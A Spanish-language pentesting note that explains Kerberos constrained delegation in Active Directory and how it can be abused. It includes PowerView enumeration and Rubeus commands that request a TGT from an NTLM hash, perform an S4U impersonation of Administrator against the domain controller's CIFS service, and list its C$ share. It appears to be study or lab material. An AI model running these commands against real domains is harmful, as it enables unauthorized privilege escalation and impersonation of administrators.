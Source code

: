 # Constrained Delegation

Tags: #AD #Windows 

La delegación restringida (Constrained Delegation) en Active Directory es una funcionalidad de seguridad que permite a un servicio, como un servidor o una aplicación, solicitar tickets Kerberos en representación de un usuario, pero restringiendo esta capacidad únicamente a servicios específicos previamente configurados. Esta característica se introdujo para mejorar la seguridad y brindar un mayor control sobre la delegación de credenciales entre servicios dentro de un entorno de red.

```bash 
# Tipos de Delegación Restringida:

Existen dos modos principales de delegación restringida:

1. Delegación Restringida con TGT (Trusted to Authenticate for Delegation): En este modo, el servicio no puede solicitar tickets de servicio en nombre de un usuario a menos que el usuario haya autenticado directamente al servicio que está realizando la delegación. Esto es más seguro porque requiere una autenticación inicial con el servicio que delega.
    
2. Delegación Restringida sin TGT (Kerberos Only): Aquí, el servicio puede solicitar tickets para otros servicios especificados en la lista de servicios permitidos sin que el usuario se autentique directamente con el servicio que delega.
    
3. Seguridad y Riesgos: La delegación restringida, aunque más segura que la delegación no restringida (Unconstrained Delegation), aún presenta riesgos si un atacante obtiene el control de la cuenta del servicio que puede delegar. Con este control, el atacante puede acceder a otros servicios como si fuera el usuario autenticado. Por lo tanto, es fundamental restringir el uso de la delegación a cuentas de servicios necesarias y monitorear estas cuentas de manera continua.
```

## Constrained Delegation en Cuentas de Computadora

Para las cuentas de computadora, la delegación restringida se utiliza para controlar los servicios que se ejecutan en una máquina en particular y cómo esos servicios pueden actuar en nombre de los usuarios. Por ejemplo, un servidor web que corre en una máquina específica podría necesitar acceder a otro servidor en nombre del usuario para obtener información. Configurando la delegación restringida en la cuenta de la computadora que hospeda el servidor web, controlamos a qué servicios externos puede este servidor acceder con las credenciales de un usuario.

```bash 
# Uso de Impacket

1. Identificación del Servicio Delegado: Primero, identificarías el servicio específico al que se permite la delegación. En tu salida, estos están listados bajo "msds-allowedtodelegateto". Parece que "Suspicious-PC" puede delegar a ciertos servicios HTTP en "First-DC", mientras que "USER-SERVER" puede delegar a varios servicios "HOST" y "TERMSRV".
    
2. Obtención de un Ticket de Servicio: Luego, podrías usar una herramienta como "getST.py" de Impacket para obtener un ticket de servicio (TGS) para el servicio que se permite delegar. Necesitarías tener acceso a una cuenta que tenga permisos para solicitar dicho ticket, que podría ser cualquier usuario o cuenta de servicio que se autentique con el servidor que tiene la delegación restringida configurada.
    
3. Uso del Ticket de Servicio: Una vez que tienes el TGS, puedes usar otra herramienta de Impacket, como "psexec.py" o "wmiexec.py", para usar ese ticket y autenticarte en el servicio de destino, ejecutando comandos o realizando otras acciones como si fueras el usuario cuyo ticket has obtenido.
```

```powershell
# Esta vulnerabilidad viene del resultado de ADPeas y debe de contener lo siguiente

Nota: 
	1. UserAccountControl = TRUSTED_TO_AUTH_FOR_DELEGATION
	2. sAMAccountName = Nombre del equipo para saber cual es el que de debe de comprometer 'Es quien tiene los permisos'
	3. msDS-AllowedToDelegateTo = HOST/Domain1.corp   # Equipo victima 'El dominio al cual se puede comprometer'


# Identificar el Constrained Delegation 
❯ Get-DomainComputer -TrustedToAuth | select samaccountname, samaccounttype, msds-allowedtodelegateto, serviceprincipalname



# Resultado
1. Suspicious-PC$:
    
    - 'samaccountname': El nombre de la cuenta de la máquina es Suspicious-PC$.
    - 'samaccounttype': Indica que esta cuenta es una cuenta de máquina.
    - 'msds-allowedtodelegateto': Lista los servicios a los que esta máquina puede presentar credenciales en nombre de otro usuario. En este caso, está limitado a ciertos servicios HTTP en 'First-DC.domain1.corp'.
    - 'useraccountcontrol': Indica el tipo de cuenta, que es una cuenta de confianza de estación de trabajo.
        
    
2. USER-SERVER$:
    - 'samaccountname': El nombre de la cuenta de la máquina es USER-SERVER$.
    - 'samaccounttype': Indica que esta cuenta es una cuenta de máquina.
    - 'msds-allowedtodelegateto': Lista los servicios a los que esta máquina puede presentar credenciales en nombre de otro usuario. Aquí, está limitado a ciertos servicios HOST en 'First-DC.domain1.corp'.
    - 'serviceprincipalname' (SPN): Este es un identificador único para cada instancia del servicio. Se utilizan para la autenticación Kerberos. La presencia de términos como WSMAN y TERMSRV sugiere que esta máquina está ejecutando servicios de administración remota de Windows y servicios de terminal (Remote Desktop Services), respectivamente.
    - 'useraccountcontrol': Indica el tipo de cuenta, que es una cuenta de confianza de estación de trabajo.
```

```bash 
Un atacante que ha comprometido cualquiera de estas máquinas (por ejemplo, obteniendo las credenciales adecuadas o explotando alguna vulnerabilidad) puede utilizar la característica de delegación restringida para autenticarse en el 'First-DC.domain1.corp' como cualquier usuario que haya iniciado sesión previamente en la máquina comprometida, limitado a los servicios especificados en 'msds-allowedtodelegateto'.

1. Si un atacante compromete 'Suspicious-PC$', podría delegar credenciales para autenticarse hacia servicios HTTP específicos en 'First-DC.domain1.corp'.
    
2. Si 'USER-SERVER$' es comprometido, el atacante podría utilizar esta delegación para autenticarse hacia servicios que utilizan el protocolo HOST (generalmente servicios a nivel de sistema operativo o servicios de red) en 'First-DC.domain1.corp'.
```

## Utilizando Rubeus

```powershell
❯ klist purge   # Eliminamos los tickets de servicio que se encuentran en cache

❯ ./Rubeus.exe asktgt /user:USER-SERVER /ntlm:dadef894e564c991a5a5714e0a7efc67 /domain:domain1.corp /outfile:userserver.tgt   # Solicitar un TGT

❯ .\Rubeus.exe s4u /ticket:userserver.tgt /msdsspn:"HOST/First-DC.domain1.corp" /impersonateuser:Administrator /altservice:CIFS /ptt     # Se hace un Pass-The-Ticket y solicitas el TGS

❯ klist         # Mirar los tickets de servicio 

❯ dir \\First-DC.domain1.corp\c$    # Validar los recursos 
```